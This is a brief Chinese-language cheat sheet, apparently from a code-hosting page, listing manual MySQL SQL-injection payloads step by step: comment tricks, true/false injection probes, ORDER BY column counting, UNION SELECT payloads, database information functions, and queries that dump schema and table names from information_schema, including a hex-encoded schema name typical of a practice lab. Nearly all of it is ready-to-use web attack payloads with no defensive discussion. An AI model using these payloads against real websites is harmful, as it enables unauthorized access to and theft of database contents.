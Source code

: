 ## 
![1](https://image.baidu.com/search/down?tn=download&word=download&ie=utf8&fr=detail&url=https://ws3.sinaimg.cn/large/006Xzox4ly1g0pom0382gj30b40b43yx.jpg)

##### 注释

--+
-- 任意符号
%23  (#ur编码)

##### 判断注入

`1' and 1=1 --+`
`1' and 1=2 --+`

##### 查询字段

`1' order by 1 --+` 正常
`1' order by 4 --+` 报错
`1' order by 3 --+` 正常
字段为3

##### UNION SELECT 联合查询

`-1' union select 1,2,3 --+`
`1' and 1=2 union select 1,2,3 --+`
报错2，3

##### 信息收集

`version()`   #Mysql版本
`user()`      #数据库用户名
`database()`  #数据库名
`@@datadir()` #数据库路径

##### 查询所有数据库

`-1'  union select 1, 2, group_concat(schema_name) from information_schema.schemata --+`

##### 查询当前数据库的所有表名

`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=database() --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema='security' --+`
`-1'  union select 1, 2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+ hex编码 前面加0x`














